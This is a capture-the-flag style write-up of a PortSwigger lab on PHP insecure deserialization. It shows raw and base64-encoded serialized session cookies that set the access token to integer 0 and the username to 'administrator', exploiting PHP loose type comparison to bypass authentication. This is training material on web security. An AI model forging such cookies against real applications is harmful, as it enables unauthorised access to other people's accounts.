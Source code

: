 
# Modifying serialized data types

This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the administrator account. Then, delete Carlos.

You can log in to your own account using the following credentials: wiener:peter

Hint: To access another user's account, you will need to exploit a quirk in how PHP compares data of different types.


---------------------------------------------

References: 

- https://portswigger.net/web-security/deserialization/exploiting



![img](images/Modifying%20serialized%20data%20types/1.png)

---------------------------------------------


First intercept a request after logging in:



![img](images/Modifying%20serialized%20data%20types/2.png)


Then decode the content of the session cookie:

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"z6217dzgdnj1g7ukjodao93t39fw1jvb";}
```



![img](images/Modifying%20serialized%20data%20types/3.png)


Test with the same username and an access token equal to the integer 0:

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";i:0;}
```

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtpOjA7fQ==
```



![img](images/Modifying%20serialized%20data%20types/4.png)


Then change the username to “administrator” and update the length of that string:

```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
```



![img](images/Modifying%20serialized%20data%20types/5.png)


Then delete the user:



![img](images/Modifying%20serialized%20data%20types/6.png)
